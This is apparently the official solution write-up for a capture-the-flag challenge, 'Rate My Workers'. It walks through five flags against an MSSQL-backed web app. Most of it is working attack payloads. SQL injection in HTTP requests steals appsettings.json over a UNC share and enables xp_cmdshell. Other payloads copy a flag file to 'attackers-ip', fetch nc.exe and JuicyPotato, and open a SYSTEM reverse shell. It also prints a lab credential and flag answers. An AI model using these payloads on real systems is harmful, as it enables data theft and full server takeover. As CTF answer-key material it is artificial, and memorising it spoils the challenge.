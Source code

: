 # Rate My Workers (Blackmail)

Solutions

## Flag 1

The player will receive a zip file named flagdb.zip that contains two files (flagdb.mdf and flagdb_log.ldf). Restore them with a locally installed MSSQL instance and decrypt the flag using the following:

DECLARE @object VARBINARY(max), @output NVARCHAR(max)
SELECT @object = [flag] FROM [dbo].[flag] ORDER BY [flag] OFFSET 0 ROW FETCH FIRST 1 ROW ONLY
EXEC dbo.decrypt @object, @output = @output OUTPUT
SELECT @output
GO

## Flag 2

The player will receive two new zip files named worker_1c3a6a4dc9b308df.zip and ratemyworkers_176f9b5f22910215.zip that contains the MDF/LDF file of a web application and the other contains the compiled web application code.

DECLARE @password VARBINARY(max), @output NVARCHAR(max), @name VARCHAR(11)
SELECT @name = [name], @password = [password] FROM [dbo].[evaluators] WHERE password_last_modified like '2023-04%' ORDER BY [id] OFFSET 0 ROW FETCH FIRST 1 ROW ONLY
EXEC dbo.decrypt @password, @output = @output OUTPUT
SELECT @name, @output
GO

## Flag 3

Steal the appsettings.json.

```
POST /Ratings HTTP/1.1
Host: localhost:2473
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Content-Length: 194

[{"table":"workers","name":"name","value":",');BULK INSERT worker.dbo.workers FROM 'C:\\inetpub\\wwwroot\\appsettings.json' WITH (ERRORFILE = '\\\\shell.ctf\\share\\a');SELECT * FROM evaluations AS e--"}]
```

## Flag 4

Using the credentials obtained in the previous step, use the create database backup functionality to enable xp_cmdshell using the SQL injection.

```
POST /CreateBackup HTTP/1.1
Host: localhost:2473
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 487
Connection: close

Input.Server=WIN-DRNAADLUHFV\SQLEXPRESS&Input.Username=devadmin&Input.Password=FLAG-715c5c1a8fbeeeb20179507a9fde2181&Input.Database=worker]+TO+DISK+=+'C:\temp\backup.bak';EXECUTE+sp_configure+'show+advanced+option','1'%3bRECONFIGURE%3bEXECUTE+sp_configure+'xp_cmdshell','1'%3bRECONFIGURE--
```

### Payload 1

```
worker] TO DISK = 'C:\temp\backup.bak';EXECUTE sp_configure 'show advanced option','1';RECONFIGURE;EXECUTE sp_configure 'xp_cmdshell','1';RECONFIGURE--
```

### Payload 2

```
worker] TO DISK = 'C:\temp\backup.bak';EXECUTE xp_copy_file 'C:\\flag_rce_FsXxVwRy93.txt','\\attackers-ip\share\flag_rce.txt'--
```

## Flag 5

Get SYSTEM by using the SEImpersonatePrivileges.

### Payload 1

```
worker] TO DISK = 'C:\temp\backup.bak';EXECUTE xp_copy_file '\\attackers-ip\share\nc.exe','c:\temp\nc.exe'--
```

### Payload 2

```
worker] TO DISK = 'C:\temp\backup.bak';EXECUTE xp_copy_file '\\attackers-ip\share\juicypotato.exe','c:\temp\juicypotato.exe'--
```

### Payload 3

```
worker] TO DISK = 'C:\temp\backup.bak';EXECUTE xp_cmdshell 'c:\temp\juicypotato.exe -t * -l 4445 -p "cmd.exe" -a "/c ""C:\temp\nc64.exe -e cmd.exe attackers-ip 4445"""'--
```
